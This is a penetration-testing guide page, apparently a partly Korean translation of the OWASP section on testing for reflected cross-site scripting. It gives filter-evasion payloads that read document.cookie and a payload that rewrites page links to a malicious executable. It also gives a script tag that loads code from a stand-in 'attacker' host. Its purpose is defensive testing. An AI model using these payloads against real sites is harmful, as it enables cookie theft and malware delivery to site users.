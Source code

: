 ============================================================================================
OTG-INPVAL-001
============================================================================================

|

반사형 크로스 사이트 스크립팅 테스트

|

Summary
============================================================================================

반사형 크로스 사이트 스크립팅은 공격자가 HTTP 응답 데이터 안에 브라우저 실행 코드를
삽입할 때 발생합니다.
삽입 공격은 그 자신이 어플리케이션 안에 저장되지 않을 뿐아니라 지속되지 않고, 
악의적으로 조작한 링크 또는 웹 페이지에 접근하는 사용자만 영향을 줍니다.
공격 문자열은 조작한 URI 또는 HTTP 파라미터의 일부에 포함되어, 
어플리케이션에서 부적절하게 처리되어 피해자에게 리턴됩니다.

반사형 XSS는 전체적인 XSS 공격 중 가장 빈번한 공격 형태입니다.
반사형 XSS 공격은 지속적이지 않은 XSS 공격으로 잘 알려져 있고, 공격 페이로드는
싱글 요청 및 응답을 통해 실행되고 전송됩니다.
그래서, 첫번째 순서 또는 타입 1 XSS라고도 불립니다.  

웹 어플리케이션이 해당 공격 형태에 취약할 때, 클라이언트로 요청을 통해 
전송이 확인되지 않은 입력을 돌려보낼 것입니다.

The common modus operandi of the attack includes a design step, in which the 
attacker creates and tests an offending URI, a social engineering step, in
which she convinces her victims to load this URI on their browsers, and the 
eventual execution of the offending code using the victim’s browser.

일반적으로 공격자 코드는 자바스크립트 언어로 쓰여져 있지만, 그 외 스크립팅
언어도 종종 사용됩니다.(ActionScript, VBScript)
공격자는 일반적으로 키 로거 설치, 피해자 쿠키 탈취, 클립보드 탈취 수행,
또는 페이지 컨텐츠 교체를 위해 이 취약점을 이용합니다.

XSS 취약점을 막기 가장 어려운 부분은 적절한 문자 인코딩입니다.
일부 경우, 웹 서버 또는 웹 어플리케이션은 문자의 일부 인코딩을 
필터링할 수 없습니다. 
그래서, 웹 어플리케이션은 **<script>**를 필터링할 수 있지만, 
간단한 인코딩 태그를 포함한 **%3cscript%3e**를 
필터링하지 않을 수 있습니다.

|

How to Test
============================================================================================

|

**Black Box testing**

블랙 박스 테스트는 최소한 3가지 과정을 포함해야합니다.

(1) 입력 벡터 탐지.
침투 테스터는 각각의 웹 페이지에서 모든 웹 어플리케이션의 사용자 정의 변수와 
그들이 입력되는 방법을 확인해야 합니다.
이것은 HTTP 파라미터, POST 데이터, 숨겨진 form 필드 값, 그리고 미리 정의된 radio
또는 selection 값과 같은 숨겨지거나 명백하지 않은 입력을 포함합니다.
일반적으로 브라우저 내에 HTML 에디터 또는 웹 프록시는 숨겨진 변수를 보는 데 사용할 
수 있습니다.

(2) 잠재적인 취약점을 탐지하기 위해 각각의 입력 벡터 분석.
XSS 취약점을 탐지하기 위해, 침투 테스터는 각각의 입력 벡터에 특별하게 조작한 입력 
데이터를 사용할 것입니다.
그러한 입력 데이터는 일반적으로 해롭지 않지만, 취약점이 나타난 웹 브라우저로 부터
응답 데이터가 트리거됩니다.
침투 테스트 데이터는 웹 어플리케이션 퍼저, 알려진 공격 문자열 리스트 또는 수동으로
생성될 수 있습니다.

입력 데이터 예제

.. code-block:: html

    <script>alert(123)</script>

.. code-block:: html

    "><script>alert(document.cookie)</script>

더 자세한 목록은 XSS Filter Evasion Cheat Sheet을 참고

(3) 이 전 과정에서 시도된 입력값으로, 침투 테스터는 결과를 분석할 수 있습니다. 
그리고, 웹 어플리케이션의 보안에 실제 영향을 주는 취약점을 나타내는 경우를 결정합니다.
이것은 HTML 웹 페이지 결과와 침투테스트 입력 검색 테스트가 요구됩니다.
발견되면, 침투 테스터는 인코딩된 것, 대체된 것, 또는 필터링 된 것에 대해 적합하지 않은 
특수 문자를 식별합니다.
필터링 되지 않은 취약한 특수 문자 집합은 HTML의 섹션 컨텍스트에 따라 달라집니다.

모든 HTML 특수 문자가 HTML 엔티티로 교체되는 지 식별합니다.
식별할 키 HTML 엔티티

.. code-block:: html

    > (초과)
    < (미만)
    & (앰퍼센트)
    ' (싱글 쿼트)
    " (더블 쿼트)

그러나, 엔티티의 전체 리스트는 HTML 과 XML 규격에 정의되어 있습니다. 
Wikipedia에 완벽한 reference를 가지고 있습니다.

HTML 액션 또는 자바스크립트 코드의 컨텍스트에서 다른 특수 문자 설정은 
취소, 암호화, 대체, 필터링을 해야할 것입니다.

.. code-block:: html

    \n (new line)
    \r (carriage return)
    \' (싱글 쿼트)
    \" (더블 쿼트)
    \\ (백슬래쉬)
    \uXXXX (unicode 값)

|

Example 1
-------------------------------------------------------------------------------------------

예를 들어, "Welcome %username%"를 출력하는 사이트가 있다고 합시다. 그리고,
다운로드 링크가 있습니다.

침투 테스터는 모든 데이터 입력 포인트는 XSS 공격이 발생할 수 있음을 의심해야 합니다.
그것을 분석하기 위해, 침투 테스터는 사용자 변수를 실행하고 취약점을 트리거 합니다.

다음 링크로 클릭하고 상황을 확인해봅시다.

.. code-block:: html

    http://example.com/index.php?user=<script>alert(123)</script>

만약 필터링이 없다면 다음 팝업이 결과로 발생될 것입니다.

이것은 XSS 취약점이 있다는 걸 의마하고, 침투 테스터의 링크를 클릭한다면
모든 사람의 브라우저에 테스터가 선택한 코드를 실행 할 수 있다는 걸 나타냅니다.

|

Example 2
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example.com/index.php?user=<script>window.onload=
    function() {var AllLinks=document.getElementsByTagName("a");
    AllLinks[0].href="http://badexample.com/malicious.exe";}</script>



|

Example 3
-------------------------------------------------------------------------------------------

.. code-block:: html

    <input type="text" name="state" value="INPUT_FROM_USER">

.. code-block:: html

    "onfocus="alert(document.cookie)

|

Example 4
-------------------------------------------------------------------------------------------

.. code-block:: html

    "><script>alert(document.cookie)</script>

.. code-block:: html

    "%3cscript%3ealert(document.cookie)%3c/script%3e


|

Example 5
-------------------------------------------------------------------------------------------

.. code-block:: html

    <scr<script>ipt>alert(document.cookie)</script>

|

Example 6
-------------------------------------------------------------------------------------------

.. code-block:: php

    <?
        $re = "/<script[^>]+src/i";

        if (preg_match($re, $_GET['var']))
        {
            echo "Filtered";
            return;
        }
        echo "Welcome ".$_GET['var']." !";
    ?>

.. code-block:: html

    <script src="http://attacker/xss.js"></script>

.. code-block:: html

    http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>

|

Example 7
-------------------------------------------------------------------------------------------

.. code-block:: html

    http://example/page.php?param=<script>[...]</script>


.. code-block:: html

    http://example/page.php?param=<script&param=>[...]</&param=script>


|

Gray Box testing
-------------------------------------------------------------------------------------------

Gray Box testing is similar to Black box testing. In gray box testing,
the pen-tester has partial knowledge of the application. In
this case, information regarding user input, input validation controls,
and how the user input is rendered back to the user might be
known by the pen-tester.

If source code is available (White Box), all variables received from
users should be analyzed. Moreover the tester should analyze any
sanitization procedures implemented to decide if these can be circumvented.

|

Tools
============================================================================================

- OWASP CAL9000

CAL9000 is a collection of web application security testing tools
that complement the feature set of current web proxies and automated
scanners. It’s hosted as a reference at 
http://yehg.net/lab/pr0js/pentest/CAL9000/

- PHP Charset Encoder(PCE)

http://h4k.in/encoding [mirror: http://yehg.net/e ]
This tool helps you encode arbitrary texts to and from 65 kinds
of charsets. Also some encoding functions featured by JavaScript
are provided.

- HackVertor

http://www.businessinfo.co.uk/labs/hackvertor/
hackvertor.php
It provides multiple dozens of flexible encoding for advanced
string manipulation attacks.

- WebScarab 

WebScarab is a framework for analysing
applications that communicate using the HTTP and HTTPS
protocols.

- XSS-Proxy

http://xss-proxy.sourceforge.net/
XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.

- ratproxy

http://code.google.com/p/ratproxy/
A semi-automated, largely passive web application security
audit tool, optimized for an accurate and sensitive detection,
and automatic annotation, of potential problems and securityrelevant
design patterns based on the observation of existing,
user-initiated traffic in complex web 2.0 environments.

- Burp Proxy

http://portswigger.net/proxy/
Burp Proxy is an interactive HTTP/S proxy server for attacking
and testing web applications.

- OWASP Zed Attack Proxy (ZAP)

OWASP_Zed_Attack_Proxy_Project
ZAP is an easy to use integrated penetration testing tool for
finding vulnerabilities in web applications. It is designed to be
used by people with a wide range of security experience and as
such is ideal for developers and functional testers who are new
to penetration testing. ZAP provides automated scanners as well
as a set of tools that allow you to find security vulnerabilities
manually.

- OWASP Xenotix XSS Exploit Framework

OWASP_Xenotix_XSS_Exploit_Framework
OWASP Xenotix XSS Exploit Framework is an advanced Cross
Site Scripting (XSS) vulnerability detection and exploitation
framework. It provides Zero False Positive scan results with
its unique Triple Browser Engine (Trident, WebKit, and Gecko)
embedded scanner. It is claimed to have the world’s 2nd largest
XSS Payloads of about 1600+ distinctive XSS Payloads for
effective XSS vulnerability detection and WAF Bypass. Xenotix
Scripting Engine allows you to create custom test cases and
addons over the Xenotix API. It is incorporated with a feature rich
Information Gathering module for target Reconnaissance. The
Exploit Framework includes offensive XSS exploitation modules
for Penetration Testing and Proof of Concept creation.

|

References
============================================================================================

OWASP Resources
--------------------------------------------------------------------------------------------

- XSS Filter Evasion Cheat Sheet

Books
--------------------------------------------------------------------------------------------

- Joel Scambray, Mike Shema, Caleb Sima - “Hacking Exposed Web
Applications”, Second Edition, McGraw-Hill, 2006 - ISBN 0-07-
226229-0

- Dafydd Stuttard, Marcus Pinto - “The Web Application’s
Handbook - Discovering and Exploiting Security Flaws”, 2008, Wiley,
ISBN 978-0-470-17077-9

- Jeremiah Grossman, Robert “RSnake” Hansen, Petko “pdp” D.
Petkov, Anton Rager, Seth Fogie - “Cross Site Scripting Attacks: XSS
Exploits and Defense”, 2007, Syngress, ISBN-10: 1-59749-154-3

Whitepapers
--------------------------------------------------------------------------------------------

- CERT - Malicious HTML Tags Embedded in Client Web Requests:
Read
- Rsnake - XSS Cheat Sheet: Read
- cgisecurity.com - The Cross Site Scripting FAQ: Read
- G.Ollmann - HTML Code Injection and Cross-site scripting: Read
- A. Calvo, D.Tiscornia - alert(‘A javascritp agent’):
Read ( To be published )
- S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the
Web browser threat: Read

|
